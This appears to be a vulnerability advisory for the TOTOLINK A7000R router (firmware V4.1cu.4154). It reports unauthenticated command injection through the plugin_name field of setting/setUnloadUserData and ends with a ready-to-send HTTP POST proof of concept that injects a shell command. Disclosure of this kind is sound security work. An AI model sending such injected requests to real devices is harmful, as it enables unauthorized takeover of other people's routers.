



# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** A7000R

**Affected firmware version:** V4.1cu.4154

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/index/product.html?product=A7000R))

# Overview

Critical unauthorized command execution has been found in the TOTOLINK A7000R router. The vulnerability can be triggered via route `/cgi-bin/cstecgi.cgi`. An attacker can achieve unauthorized RCE by sending an HTTP POST request, specifically by making a request to `setting/setUnloadUserData`.

# Vulnerability details

The logic related to the `setUnloadUserData` function is registered here



It can be seen that the plugin_name is valued, and then the system is finally executed through command splicing to achieve command execution



# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/login.asp?timestamp=1768388596540
Upgrade-Insecure-Requests: 1
Priority: u=0, i

{"topicurl":"setting/setUnloadUserData",
"plugin_name":";ls /etc > /etc_ro/web/11.txt;"
}
```

